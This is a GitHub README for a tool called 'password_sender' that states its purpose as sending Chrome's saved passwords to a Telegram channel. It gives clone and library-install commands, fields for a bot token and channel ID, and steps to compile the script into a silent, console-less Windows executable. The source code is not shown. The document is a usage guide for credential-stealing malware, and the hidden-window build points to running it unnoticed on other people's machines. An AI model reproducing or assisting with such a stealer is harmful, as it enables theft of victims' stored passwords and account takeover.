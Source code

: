 # password_sender
Send Chrome passwords to telegram channel

## Installation
```
git clone https://github.com/abdurohman-karim/password_sender.git
```

## Installation Libraries
```
pip install python-telegram-bot

pip install pycryptodome

pip install pywin32

```


## How to use 
```
bot_token = 'BOT_TOKEN'
chat_id = '-1001500553277'
```
Change [bot_token] to your bot token, and change chat_id to your channel chat_id [chat_id]

## Convert .py file to .exe
```
pip install pyinstaller
```
### And run 
```
pyinstaller --onefile --noconsole your_python_file.py
```
It's save your_python_file.exe to dist/your_python_file.exe

